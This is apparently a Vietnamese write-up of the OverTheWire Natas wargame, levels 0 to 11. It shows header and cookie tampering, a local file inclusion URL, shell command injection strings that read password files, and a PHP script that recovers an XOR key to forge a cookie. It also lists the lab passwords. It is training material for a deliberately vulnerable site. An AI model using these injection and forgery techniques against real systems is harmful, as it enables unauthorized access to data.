 ## Writeup Natas

- Natas 0
  ctrl + u ta thấy password natas1: gtVrDuiDfck831PqWsLEZy5gyDz1clto

- Natas 0 -> 1
  vô hiệu hóa javascript trên trình duyệt là có thể chuột phải, hoặc bấm ctrl + u :v 
  pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

- Natas 1 -> 2
  vẫn ctrl+u thấy có một đường dẫn đến file ảnh /files/pixel.png. Thế nên mình truy cập đến url /files thôi, xem thử có gì không
  thì thấy có thêm một file users.txt. Mở ra thì thấy natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

- Natas 2 -> 3
  Ctrl + u ra dòng này: No more information leaks!! Not even Google will find it this time...
  Vậy là file robots.txt rồi. Xem thử thì thấy url /s3cr3t/ vào thấy file users.txt ra natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

- Natas 3 -> 4
  Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
  Lúc đầu vào nó hiện ra thông báo này, nó nói là chúng ta truy cập từ "", bạn nên truy cập từ natas5.., nhấn vào link refresh page thì
  Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

  Xem burp thì thấy dòng Referer: http://natas4.natas.labs.overthewire.org/ vậy giờ thay đổi link như hướng dẫn là được
  kết quả: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

- Natas 4 -> 5
  Access disallowed. You are not logged in
  Xem thử cookie thấy có trường loggedin đang có giá trị 0, sửa lại thành 1 
  kết quả: Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

- Natas 5 -> 6
  ```php
  include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
  ```
  Khi ta nhập đúng secret thì ok. Thế secret ở đâu ? ta thấy dòng - include "includes/secret.inc"; nó lấy từ file này, vậy ta thử truy cập
  url này xem thế nào, ta có: $secret = "FOEIUWGHFEEUHOFUOIU"; giờ nhập vô là ok 
  kết quả: Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

- Natas 6 -> 7
  ta thấy trong web có hai button dẫn đến hai đường link, home và about có địng dạng index.php?page= , mà thêm câu gợi ý 
  hint: password for webuser natas8 is in /etc/natas_webpass/natas8 , thế là web này bị lỗi local file inclusion, ta có url
  index.php?page=/etc/natas_webpass/natas8 thế là ra pass DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

- Natas 7 -> 8
  source code
  ```php
  $encodedSecret = "3d3d516343746d4d6d6c315669563362";

  function encodeSecret($secret) {
      return bin2hex(strrev(base64_encode($secret)));
  }

  if(array_key_exists("submit", $_POST)) {
      if(encodeSecret($_POST['secret']) == $encodedSecret) {
      print "Access granted. The password for natas9 is <censored>";
      } else {
      print "Wrong secret";
      }
  }
  ```
  mình nhập vào input rồi nó xào nặn bằng hàm encodeSecret, sau khi sào nặn xong giống với $encodedSecret
  cho từ đầu thì có password. Vậy giờ ta viết đoạn decode hàm trên, ta có 

  ```php
  $secret = "3d3d516343746d4d6d6c315669563362";
  echo base64_decode(strrev(hex2bin($secret)));
  ```
  ra được kết quả: oubWYf2kBq , nhập vào input ta được Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

- Natas 8 -> 9 
  Ta có source
  ```php
  $key = "";

  if(array_key_exists("needle", $_REQUEST)) {
      $key = $_REQUEST["needle"];
  }

  if($key != "") {
      passthru("grep -i $key dictionary.txt");
  }
  ```
  chương trình hoạt động như sau: Mình nhập input thì nó gán vào biến $key và được vào thực thi câu lệnh
  grep -i $key dictionary.txt, điều đáng nói ở đây là không có kiểm tra đầu vào, người nhập muốn nhập gì nhập. Vậy ta sẽ nhập câu lệnh
  khác thử, ta dùng: ; ls /etc ; => ta thấy thư mục natas_webpass, lần mò vào trong ta được câu lệnh cuối cùng
  ; cat /etc/natas_webpass/natas10;  => nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

- Natas 9 -> 10 
  Dạng bài trước nhưng đã có kiểm tra input , nó trong cho dùng ; nữa thì mình đổi cái khác
  .* cat /etc/natas_webpass/natas11 #
  kết quả: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

- Natas 10 -> 11
  ```php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = '<censored>';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  function loadData($def) {
      global $_COOKIE;
      $mydata = $def;
      if(array_key_exists("data", $_COOKIE)) {
      $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
      if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
          if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
          $mydata['showpassword'] = $tempdata['showpassword'];
          $mydata['bgcolor'] = $tempdata['bgcolor'];
          }
      }
      }
      return $mydata;
  }

  function saveData($d) {
      setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
  }

  $data = loadData($defaultdata);

  if(array_key_exists("bgcolor",$_REQUEST)) {
      if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
          $data['bgcolor'] = $_REQUEST['bgcolor'];
      }
  }

  saveData($data);



  if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}
```
  app này hoạt động như thế này: có một mảng 2 đối tượng showpassword và bgcolor, nó mã hóa qua các bước đến tạo thành cái cookie.
  Server sẽ kiểm tra showpassword yes or no, yes thì show password để đi tiếp. Vậy mình cần làm ra một cookie mà trường showpassword có
  giá trị là yes.
  mình hiện đang có một cookie có showpassword là no khi mình nhấn nút lúc ban đầu. Dựa vào source code ta đảo ngược quá trình mã hóa, 
  nhưng ta thấy $key = '<censored>'; đang là một giá trị không biết. Tìm $key này trước.
  ta dùng code này để giả lập.

```php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D');
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  echo xor_encrypt(json_encode($defaultdata));
```

  ta có $key = qw8J;
  Để đổi lại thông số showpassword bằng yes và giữ code y như ban đầu.
```php
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = 'qw8J';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  $new_cookie = base64_encode(xor_encrypt(json_encode($defaultdata)));
  echo $new_cookie;
  ```
  ra được cookie cần muốn: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
  giờ chỉ cần edit cookie cũ , f5 lại trang là ok EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

  
  
 
